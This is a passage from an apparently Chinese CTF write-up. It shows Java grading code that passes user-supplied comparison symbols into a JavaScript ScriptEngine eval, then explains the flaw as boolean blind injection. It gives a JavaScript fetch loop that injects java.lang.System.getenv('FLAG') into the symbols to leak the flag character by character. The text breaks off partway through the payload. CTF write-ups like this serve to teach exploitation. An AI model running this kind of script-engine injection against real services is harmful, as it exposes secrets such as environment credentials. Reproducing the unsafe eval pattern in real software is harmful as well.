 ```java
        Double leftScore = Double.valueOf(rule.getDouble("leftScore"));
        Double rightScore = Double.valueOf(rule.getDouble("rightScore"));
        String grade = rule.getString("grade");
        if (script(score, leftSymbol, rightSymbol, leftScore, rightScore))
          return grade; 
      } 
    } catch (Exception e) {
      System.out.println(e.getMessage());
    } 
    return "N/A";
  }
  
  private boolean script(Double score, String leftSymbol, String rightSymbol, Double leftScore, Double rightScore) {
    if (leftSymbol.length() > 24 || rightSymbol.length() > 24) {
      System.out.println("Symbol too long!");
      return false;
    } 
    String expr = "(" + leftScore + leftSymbol + "x && x" + rightSymbol + rightScore + ")";
    ScriptEngineManager manager = new ScriptEngineManager();
    ScriptEngine engine = manager.getEngineByName("js");
    engine.put("x", score);
    try {
      Object result = engine.eval(expr);
      return result.toString().equals("true");
    } catch (Exception e) {
      System.out.println(e.getMessage());
      return false;
    } 
  }
}
```

逻辑相当简洁易懂，就是布尔盲注，让`"(" + leftScore + leftSymbol + "x && x" + rightSymbol + rightScore + ")"`透出flag，锁了可控字段的总长度

直接上payload了：

```js
(async()=>{
const alp="!#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
for(let i=30;i<60;i++){
    for(let j of alp){
        await 
        fetch("http://vm7rrcv8kfewvpve.instance.penguin.0ops.sjtu.cn:18080/api/grader", {
          "method": "POST",
          "headers": {
            "user-agent": "vscode-restclient",
            "content-type": "application/json"
          },
          "body": JSON.stringify({
            "scores": [
              1,
              2,
              3
            ],
            "rules": [
              {
                "leftSymbol": ",x=java.lang.System,",
                "rightSymbol": ".getenv('FLAG')["+i+"]<'"+j+"'+",
                "leftScore": 0,
                "rightScore": 0,
                "grade": "OK1"
```